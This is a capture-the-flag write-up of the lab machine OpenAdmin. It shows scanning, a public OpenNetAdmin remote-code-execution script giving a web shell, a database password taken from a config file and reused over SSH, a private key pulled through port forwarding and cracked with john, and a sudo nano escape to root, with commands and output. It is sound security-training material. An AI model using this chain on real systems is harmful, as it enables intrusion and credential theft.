





# OpenAdmin

## Machine Info



## Recon

- nmap

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (96%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), Linux 3.18 (94%), Linux 5.0 (94%), Linux 3.16 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 5.1 (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- path

```console
$ gobuster dir -u http://10.10.10.171/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,js,html,txt -t 64 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171/
[+] Method:                  GET
[+] Threads:                 64
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================
```

## Foothold

### OpenNetAdmin RCE

- http://10.10.10.171/music/, click login -> http://10.10.10.171/ona/



- **OpenNetAdmin 18.1.1**

  - [OpenNetAdmin 18.1.1 - Remote Code Execution - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/47691)

  - [amriunix/ona-rce: OpenNetAdmin 18.1.1 - Remote Code Execution (github.com)](https://github.com/amriunix/ona-rce)

```console
$ python ona-rce.py check http://10.10.10.171/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!
```

```console
$ python ona-rce.py exploit http://10.10.10.171/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh$ uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
sh$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4e:2b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.171/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4e2b/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

```console
www-data@openadmin:/var/www$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```

### www-data -> jimmy

- docs/INSTALL

```console
docs/INSTALL
4. touch /var/log/ona.log
5. chmod 666 /var/log/ona.log
6. chown www-data /opt/ona/www/local/config (or whatever your web server user is)
7. Point your broswer to http://<servername>/ona
8. You can log in as "admin" with a password of "admin"
```

- config dir: `/opt/ona/www/local/config`

- enum: get cred

```console
www-data@openadmin:/opt/ona/docs$ cat /opt/ona/www/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

- **ssh**: `jimmy:n1nj4W4rri0R!`

### jimmy -> joanna

- linpeas output (from www-data)



- /var/www/internal belongs to jimmy -> enum

```console
jimmy@openadmin:/var/www/internal$ cat index.php

<?php
$msg = '';

if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
  if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
      $_SESSION['username'] = 'jimmy';
      header("Location: /main.php");
  } else {
      $msg = 'Wrong username or password.';
  }
}
?>

jimmy@openadmin:/var/www/internal$ cat main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```



- internal http page login cred: `jimmy:Revealed`

- port forwarding: `ssh -N -L 52846:localhost:52846 jimmy@$IP` -> get joanna's private key



- use john to crack its passphrase

```console
$ ssh2john id_rsa > hash

$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (id_rsa)
1g 0:00:00:01 DONE (2024-01-19 12:53) 0.5555g/s 5319Kp/s 5319Kc/s 5319KC/s bloodpigsotep..bloodmobb1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### joanna -> root

- enum: sudo -l

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH
    XUSERFILESEARCHPATH", secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

- [nano | GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo)

```console
Command to execute: reset; bash 1>&0 2>&0root@openadmin:/home/joanna#
root@openadmin:/home/joanna#
root@openadmin:/home/joanna# id
uid=0(root) gid=0(root) groups=0(root)
root@openadmin:/home/joanna# uname -a
Linux openadmin 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
root@openadmin:/home/joanna# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:4e:2b brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.171/24 brd 10.10.10.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:4e2b/64 scope link
       valid_lft forever preferred_lft forever
```

## Exploit Chain

port scan -> path scan -> ona service -> RCE -> www-data shell -> enum ona config -> cred -> ssh as jimmy -> netstat special port open -> internal http page available -> port forwarding using ssh -> joanna's priv key -> joanna shell -> sudo -l -> nano misconfig -> root shell
